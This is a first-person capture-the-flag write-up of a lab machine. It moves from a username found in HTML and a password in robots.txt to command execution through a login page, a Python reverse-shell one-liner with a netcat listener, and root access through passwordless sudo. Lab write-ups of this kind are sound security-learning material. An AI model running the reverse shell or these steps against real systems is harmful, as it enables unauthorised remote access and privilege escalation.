


My IP: 192.168.239.189

Target IP: 10.65.189.104

Open Ports:
22: SSH
80: Apache HTTP

Inspected element on first page, found username in HTML

Then ran a gobuster directory check and found pages to traverse

Went to robots.txt first and found a string of text, saved it for later

Though not found in the gobuster search, I tried visiting a login page. First tried 10.65.189.104/login did not work then tried 10.65.189.104/login.php and it was successful

On login.php I used the username I found from the inspected html and then the string of text I found in robots.txt that I assumed might be a password, this worked successfully and I was in for the ability to run commands

First thing I ran was whoami to see I was www-data then I ran pwd to see I was in /var/www/html then ran ls and found a number of files. I saw assets, index.html, clue.txt and a supersecretingredients.txt (spelled differently). I tried running cat on those files and it did not work, I then tried visiting these files directly through the web and it did work.

I found the first clue in clue.txt. Once here I tried running a python reverse shell through this ability to run commands to see if I could get into the machine. I set up a netcat listener on my machine with:
nc -lvnp 1234 
and then ran the following reverse shell:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.239.189",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

This connected me succesfully and I navigated around the file tree looking for common places. I visited the home directory and found the rick directory and went in and found the second clue. 

With two clues I then texted my sudo privileges with sudo su and this switched me to the root account with no need for a password, from here I navigated to the root directory and found the root folder and there was the last flag.

